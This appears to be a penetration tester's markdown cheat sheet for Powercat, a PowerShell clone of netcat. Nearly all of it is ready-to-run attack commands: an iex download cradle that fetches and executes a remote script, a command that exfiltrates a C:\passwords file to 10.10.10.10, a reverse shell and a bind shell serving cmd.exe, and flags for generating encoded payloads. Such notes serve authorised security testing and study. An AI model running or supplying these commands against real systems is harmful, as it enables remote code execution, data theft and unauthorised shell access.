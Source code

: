 # Powercat 
The Powershell clone of Netcat written by [besimorhino](https://github.com/besimorhino/powercat/blob/master/powercat.ps1) and similar useful as netcat but only useful for [[Windows-Privilege-Escalation-Vectors]], [[Active-Directory-Privilege-Escalation]] and [[Windows-File-Transfers]]

## Setup
```powershell
. .\powercat.ps1

iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')

powercat -h
```

## File transfers
```powershell
# Recieve here:
powercat -l -p 54321 -of $filename
# Exfiltrate with:
powercat -c 10.10.10.10 -p 54321 -i C:\passwords
```

## Reserve Shells
```powershell
powercat -c 10.10.10.10 -p 54321 -e cmd.exe
```

## Bind Shells
```powershell
powercat -l -p 1337 -e cmd.exe
```

## Powercat Payloads
Powercat payloads are generated by Powercat that is a set Powershell instrcutions combine parts of the Powercat script.
```powershell
-g # generate payload
-ge # generate encoded payload
```
